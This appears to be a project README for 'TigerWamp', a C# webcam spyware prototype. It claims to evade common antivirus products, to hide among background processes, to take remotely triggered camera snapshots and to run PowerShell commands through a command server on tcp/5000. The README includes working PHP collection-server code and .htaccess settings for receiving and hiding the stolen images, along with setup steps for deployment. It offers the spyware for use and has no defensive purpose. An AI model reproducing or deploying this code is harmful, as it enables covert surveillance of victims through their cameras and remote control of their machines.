 # TigerWamp Spyware
TigerWamp is a prototype camera spyware written in c# inspired by Pegasus!

At the time of publication, it could bypass Norton, MalwareBytes, and VirusTotal.
It runs as an invisible WPF application that hides in the middle of the background processes list.

To use it you need your own webserver with directory "uploads/" and a php file "upload.php" with contents:

```php
<?php
$uploads_dir = './uploads/'; //Directory to save the file that comes from client application.

if ($_FILES["file"]["error"] == UPLOAD_ERR_OK) {
    $tmp_name = $_FILES["file"]["tmp_name"];
    $name = $_FILES["file"]["name"];
    move_uploaded_file($tmp_name, "$uploads_dir/" . base64_encode($_SERVER['REMOTE_ADDR'] .".{" . time() . "}") . ".zip");
    echo "Ok.";
}
?> 
```
The spyware takes snapshots from the webcam (opencv cam 0). The camera photos can be trigger remotely with the 'cam' command. It will try to connect to a remote server on tcp/5000 (Change as needed). It also supports powershell command execution (if your good). More features coming soon.

# Recommended
Add this to your .htaccess file:
```.htaccess
RedirectMatch 404 ^/uploads/?$
```
It will make sure that only the owners of the webserver can access the content.

#Required for operation
1. Make sure you have your own http server (with php) that will accept files.
2. Make sure that you have your own server that can accept connections. Currently it uses my linode server IP. Change this I don't want your data!!!
